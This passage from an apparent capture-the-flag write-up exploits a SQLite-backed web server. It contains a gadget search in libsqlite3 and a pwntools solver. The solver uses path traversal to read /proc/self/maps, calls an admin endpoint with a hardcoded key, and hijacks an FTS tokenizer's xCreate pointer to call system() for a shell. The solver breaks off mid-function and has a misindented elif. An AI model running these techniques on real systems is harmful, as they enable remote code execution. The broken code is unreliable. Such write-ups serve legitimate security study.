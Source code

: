 This is actually great, `rax` holds pointer to our crafted `sqlite3_tokenizer_module` , since we can get a hold of whats inside `rax`, we just need to find a reliable gadget

```sh
λ › ropper --file ./libsqlite3.so.0.8.6 --search 'mov ???, [rax]' | grep call
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov ???, [rax]
[INFO] File: ./libsqlite3.so.0.8.6
0x0000000000078fd2: mov eax, dword ptr [rax]; call qword ptr [rax + 0x28];
0x000000000008d367: mov eax, dword ptr [rax]; mov rdi, rax; call qword ptr [rax + 0x38];
0x0000000000078fd1: mov rax, qword ptr [rax]; call qword ptr [rax + 0x28];
0x000000000008d366: mov rax, qword ptr [rax]; mov rdi, rax; call qword ptr [rax + 0x38];
```

Luckily, the latest version of libsqlite3 in Ubuntu 16.04.6 has this nice gadget we can use. We can both control next call (`[[rax] + 0x38]`) and the first parameter with `rdi`. `0x000000000008d366: mov rax, qword ptr [rax]; mov rdi, rax; call qword ptr [rax + 0x38];`  
The final step is just to override xCreate with the gadget and include our shell payload. Full solver,

```py
from pwn import *
from binascii import hexlify

# HOST, PORT = ('34.87.169.10', 31339)
HOST, PORT = ('127.0.0.1', 3000)

def read_file(path):
    r = remote(HOST, PORT)
    r.send(b'GET /static/../../../../../../../../../../../../..%b HTTP/1.1\r\n\r\n' % path)
    r.recvuntil(b'text/html\n\n')
    res = r.recvall()
    r.close()
    return res

def admin(var, key=b'20c366aada34781158ae700cec09a4ce'):
    r = remote(HOST, PORT)
    r.send(b'GET /admin?key=%b&var=%b HTTP/1.1\r\n\r\n' % (key, var))
    r.close()

def read_map():
    maps = read_file(b'/proc/self/maps')[:-1]
    maps = maps.split(b'\n')
    for line in maps:
        if b'[heap]' in line:
            heap_base = int(line.split(b'-')[0], 16)
            elif b'libsqlite3' in line:
            sqlbase = int(line.split(b'-')[0], 16)
            break
    return heap_base, sqlbase

server = ELF('./server', 0)
system = server.plt['system']
simple_create = 0x2abd0
simple_destroy = 0x23c40
simple_open = 0x2ab40
simple_close = 0x19080
simple_next = 0x2cb50

def fire(heap_base, sqlbase, offset=0x45190):
    fts_module_struct_addr = heap_base + offset
    shell_addr = fts_module_struct_addr + 0x38

```